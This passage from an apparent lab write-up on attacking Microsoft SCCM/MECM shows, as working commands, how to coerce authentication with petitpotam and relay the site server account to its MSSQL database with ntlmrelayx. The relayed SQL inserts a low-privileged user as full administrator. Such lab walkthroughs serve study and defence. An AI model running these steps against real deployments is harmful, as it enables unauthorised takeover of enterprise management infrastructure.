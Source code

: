 ```yaml
---
layout: post
title:  "SCCM / MECM LAB - Part 0x2 - Low user"
category : [AD, SCCM]
tags :  AD, SCCM
image:
  path: /assets/blog/SCCM/SCCMLAB.png
  alt: SCCM Part 2
---
```


On the previous post ([SCCM LAB part 0x1]({% link _posts/2024-03-28-SCCM-LAB-part0x1.md %})) we started the recon and exploit the PXE feature.
On this part we will start SCCM exploitation with low user credentials.

# Exploit with low user
## Takeover 1 - relay to mssql (low user -> mssql server admin)

- A super cool technic by default on mecm when the database is separate of the site server is that the server site is necessary sysadmin of the database. We can use it to relay the MECM$ computer to the MSSQL server database.
- Details : [Takeover-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/TAKEOVER/TAKEOVER-1/takeover-1_description.md)

- [sccmhunter](https://github.com/garrettfoster13/sccmhunter) will do the coffee for that by giving us the query we need to relay !

```bash
python3 sccmhunter.py mssql -u carol -p SCCMftw -d sccm.lab -dc-ip 192.168.33.10 -debug -tu carol -sc P01 -stacked
```
![sccm_hunter_relay_mssql.png](/assets/blog/SCCM/sccm_hunter_relay_mssql.png)

- Prepare the relay with the mssql query from the previous command

```bash
ntlmrelayx.py -smb2support -ts -t mssql://192.168.33.12 -q "USE CM_P01; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x01050000000000051500000058ED3FD3BF25B04EDE28E7B85A040000,'SCCMLAB\carol',0,0,'','','','','P01');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00004','1');"
```

- Launch petitpotam (or another coerce) :

```bash
petitpotam.py -d sccm.lab -u carol -p SCCMftw 192.168.33.1 192.168.33.11
```
